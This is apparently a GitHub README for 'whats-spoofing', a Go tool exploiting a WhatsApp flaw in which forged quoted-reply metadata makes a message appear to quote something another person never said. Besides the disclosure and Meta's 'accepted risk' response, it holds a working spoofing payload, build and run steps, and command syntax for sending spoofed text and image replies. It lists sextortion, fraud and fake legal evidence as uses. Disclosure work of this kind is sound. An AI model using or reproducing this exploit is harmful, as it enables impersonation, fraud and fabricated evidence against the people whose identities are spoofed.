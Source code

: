 # Whatsapp Spoofing impersonate of reply message

All official WhatsApp clients, upon receiving a "Message Reply" payload (QuotedMessage), do not validate whether the "ContextInfo" of this "QuotedMessage" is valid/exists ("StanzaId" and "Participant"). This allows a malicious actor to send in private chats or groups a "QuotedMessage" of a message that never existed on behalf of another person. This is highly critical and dangerous.

## Impact

Malicious individuals can use this to create issues such as:

- Arguments between couples
- Sextortion scams
- Frauds against financial institutions
- In Brazil, someone could take a cellphone to a notary office to register a "Notarial Act" to create a record that could be used in legal proceedings, claiming that the original message was deleted but keeping the evidence of the "QuotedMessage."
- Creating embarrassing situations involving public figures (famous actors, politicians, etc.)

## What Meta/Facebook said about this

Hi Gustavo,

Thanks for your report. This issue has been reported to us before, and we consider it to be an accepted risk. When someone replies to a message, the WhatsApp client copies the text available within the app and creates a graphical representation that helps people follow the conversation, the owner of this quoted message is always the person replying to the original message. WhatsApp uses end to end encryption and doesn’t store messages on its servers, therefore we don’t have a single source of truth for these messages. People always have the option of blocking a sender who tries to spoof messages and they can report problematic content to us. Although we appreciate the report, such issues do not qualify under our bug bounty program.

Thanks,

Teo

## App Versions

Latest version on all platforms

## The problem

Users: UserA, UserB; UserA is not known by UserB

UserA (SCAMMER) sends a spoofed messages to UserB in response to a message that UserB did never send

Spoofed message payload:

```go
msg := &waProto.Message{
    ExtendedTextMessage: &waProto.ExtendedTextMessage{
        Text: proto.String("Some text"),
        ContextInfo: &waProto.ContextInfo{
            StanzaId:     proto.String("Some Random ID"), //Random ID
            Participant: proto.String("5511999999999@s.whatsapp.net"), //Spoofed user ID
            QuotedMessage: &waProto.Message{
                Conversation: proto.String("Some Spoofed text"), //QuotedMessage Spoofed text
            },
        },
    },
}
```

Send the Spoofed Payload:

```go
resp, err := cli.SendMessage(context.Background(), chatID, msg) 
// chatID is the ID of the chat you want to send the message to, can be a group or the same number as the spoofed user ID
```

## POC

[Watch the video](https://youtu.be/_WL6hpAvNh8)

[![Watch the video](https://img.youtube.com/vi/_WL6hpAvNh8/hqdefault.jpg)](https://youtu.be/_WL6hpAvNh8)

![poc_whatsapp_spoofing-impersonate-of-reply-message.png](files/poc_whatsapp_spoofing-impersonate-of-reply-message.png)

## Exploit

#### Clone the repository.

```bash
git clone https://github.com/lichti/whats-spoofing.git
```

### Install dependencies.

```bash
cd whats-spoofing
go mod download
go get 
```

### Build

```bash
go build 
```

### Running

```bash
./whats-spoofing
```

### Usage

#### Retrieve Group Information

```txt
getgroup <jid>
```

#### List Groups

```txt
listgroups
```

#### Send Spoofed Reply

```txt
send-spoofed-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_text>|<text>
```

#### Send Spoofed Image Reply

```txt
send-spoofed-img-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_file> <spoofed_text>|<text>
```

#### Send Spoofed Demo Message

```txt
send-spoofed-demo <toGender:boy|girl> <language:br|en> <chat_jid> <spoofed_jid>
```

#### Send Spoofed Demo Message with Image

```txt
send-spoofed-demo-img <toGender:boy|girl> <language:br|en> <spoofed_jid> <spoofed_img>
```

